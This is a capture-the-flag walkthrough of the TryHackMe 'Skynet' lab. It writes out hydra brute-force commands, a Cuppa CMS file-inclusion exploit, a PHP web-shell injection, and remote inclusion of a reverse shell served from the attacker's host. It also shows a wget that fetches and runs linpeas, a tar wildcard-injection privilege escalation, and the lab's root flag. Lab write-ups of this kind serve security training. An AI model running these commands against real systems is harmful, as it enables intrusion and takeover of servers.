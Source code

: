 
# TryHackMe — Skynet | Full Walkthrough

**Author:** Adrian Korwel 
**Difficulty:** Medium  
**Objective:** Gain root access and retrieve the flags

---

## Enumeration (Initial Recon)

I started by scanning the target IP (10.10.3.106) using nmap:

```bash
nmap -sC -sV -oN skynet-scan.txt 10.10.3.106
```

**Open Ports:**
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
- 110 (POP3)
- 143 (IMAP)

I noted the POP3 and IMAP services—possible email credentials. The HTTP server was my initial target, so I opened it in the browser and also ran gobuster:

```bash
gobuster dir -u http://10.10.3.106 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

This revealed the directory `/squirrelmail`, which exposed a webmail login page.

---

## SquirrelMail: Email Bruteforce Attempt

I tried bruteforcing the login using hydra:

```bash
hydra -l milesdyson -P /usr/share/wordlists/rockyou.txt 10.10.3.106 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user"
```

I didn’t get a valid login here, so I moved on.

---

## BurpSuite + Hydra Attack on Admin Panel

I found an admin login panel at:

```
http://10.10.3.106/45kra24zxs28v3yd/administrator/
```

Using BurpSuite, I captured the request:

```http
POST /45kra24zxs28v3yd/administrator/
user=admin&password=admin&task=login
```

From this, I crafted a hydra command:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.3.106 http-post-form "/45kra24zxs28v3yd/administrator/:user=^USER^&password=^PASS^&task=login:Incorrect username or password"
```

Still no valid credentials, so I suspected a possible vulnerability in the CMS instead.

---

## Cuppa CMS Vulnerability — LFI Exploit

After some research on the page source, I found the CMS was Cuppa CMS.

I searched for exploits:

```bash
searchsploit cuppa
```

Which led me to the following LFI vulnerability:

```bash
/cuppa/alerts/alertConfigField.php?urlConfig=[LFI]
```

I confirmed it with:

```bash
curl "http://10.10.3.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../etc/passwd"
```

This successfully dumped `/etc/passwd` — LFI confirmed

---

## Remote Code Execution via PHP Wrapper (LFI + RCE)

My goal now was to turn this LFI into RCE. I checked `/proc/self/environ` to try and inject a PHP payload via the User-Agent:

```bash
curl -A '<?php system($_GET["cmd"]); ?>' "http://10.10.3.106/45kra24zxs28v3yd/"
```

Then I accessed:

```bash
http://10.10.3.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../proc/self/environ&cmd=id
```

But I didn’t get code execution here, so I moved on to remote inclusion.

---

## Remote File Inclusion + PHP Reverse Shell

I used the LFI param to try RFI:

```bash
http://10.10.3.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.86.132:8000/php-reverse-shell.php
```

I hosted the reverse shell locally:

```bash
cd /usr/share/webshells/php
sudo cp php-reverse-shell.php ~/Documents
nano ~/Documents/php-reverse-shell.php  # set IP and port
cd ~/Documents
python3 -m http.server 8000
```

I listened on port 4444:

```bash
nc -lvnp 4444
```

After triggering the RFI URL, the reverse shell connected!

I had a shell as:  
**User:** www-data

---

## Privilege Escalation — Enumerating the Box

From the shell, I ran:

```bash
uname -a
whoami
```

Then I downloaded linpeas.sh:

```bash
wget http://10.13.86.132:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

This showed a cron job running every minute as root:

```bash
*/1 * * * * root /home/milesdyson/backups/backup.sh
```

---

## Wildcard Injection in Tar — PrivEsc to Root

I inspected `/home/milesdyson/backups/backup.sh`:

```bash
cd /home/milesdyson/backups
cat backup.sh
```

It runs:

```bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Although I couldn't edit backup.sh, I could write into `/var/www/html`, which is where it runs the tar command. This is vulnerable to wildcard injection.

### Exploiting Tar’s --checkpoint-action

I did the following:

```bash
# Create a script that sets SUID on /bin/bash
echo -e '#!/bin/bash
chmod +s /bin/bash' > /var/www/html/root_shell.sh

# Craft the tar wildcard options
touch "/var/www/html/--checkpoint=1"
touch "/var/www/html/--checkpoint-action=exec=sh root_shell.sh"
```

After waiting 1 minute for the cron job, I checked:

```bash
ls -l /bin/bash
```

And saw the SUID bit set!

Now I ran:

```bash
/bin/bash -p
whoami
```

And I got: **root**

---

## Root Flag

Finally, I went to `/root` and grabbed the flag:

```bash
cd /root
cat root.txt
```

**Flag:** `3f0372db24753accc7179a282cd6a949`

---

## Summary

| Stage           | Method                                      |
|----------------|---------------------------------------------|
| Enumeration     | Nmap, Gobuster                              |
| Initial Access  | LFI + RFI via Cuppa CMS                     |
| Reverse Shell   | php-reverse-shell.php over HTTP             |
| Post-Enum       | linpeas.sh                                  |
| PrivEsc         | Wildcard Injection in tar via cron          |
| Root            | SUID /bin/bash trick                        |
| Root Flag       | ✅ Captured                                 |

---

## Lessons Learned

- Always test `/proc/self/environ` for LFI-RCE
- Wildcard injection in tar is powerful when `*` is used in cronjobs
- Having write access to a cron-executed directory can be lethal
- Enumeration is everything: linpeas and manual review were crucial
